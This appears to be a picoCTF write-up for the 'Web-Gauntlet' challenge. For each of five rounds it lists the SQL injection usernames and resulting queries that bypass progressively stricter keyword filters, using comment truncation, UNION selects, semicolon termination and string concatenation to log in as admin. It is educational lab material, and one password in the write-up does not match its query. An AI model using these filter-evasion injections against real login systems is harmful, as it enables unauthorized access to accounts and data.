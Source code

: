 # Web-Gauntlet
AUTHOR: MADSTACKS
DESCRIPTION: Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:29164/ http://jupiter.challenges.picoctf.org:29164/filter.php

# Solution
The challenges consist of 5 Rounds, each requiring SQL injections to move to the next round.

Round 1: <br>
Filter :  `or` <br>
Username = `admin' -- `<br>
Password = `foo` <br>
Query : `SELECT * FROM users WHERE username='admin' --' AND password='foo'`<br>
<br>
Round 2: <br>
Filter : `or and = like --` <br>
Username = `admin' union select * from users where '1`<br>
Password = `foo`<br>
Query : `SELECT * FROM users WHERE username='admin' union select * from users where '1' AND password='foo'`<br>
<br>
Round 3: <br>
Filter : `or and = like > < --`<br>
Username = `admin';`<br>
Password = `foo`<br>
Query : `SELECT * FROM users WHERE username='admin';' AND password='foo'`<br>
<br>
Round 4: <br>
Filter : `or and = like > < -- admin`<br>
Username = `ad'||'min;`<br>
Password = `foo`<br>
Query : ` SELECT * FROM users WHERE username='ad'||'min';' AND password='foo'`<br>
<br>
Round 5: <br>
Filter : `or and = like > < -- union admin`<br>
Username = `ad'||'min;`<br>
Password = `foo`<br>
Query : `SELECT * FROM users WHERE username='ad'||'min';' AND password='123'`<br>

FLAG will be present in `filter.php` at the end of 5 rounds
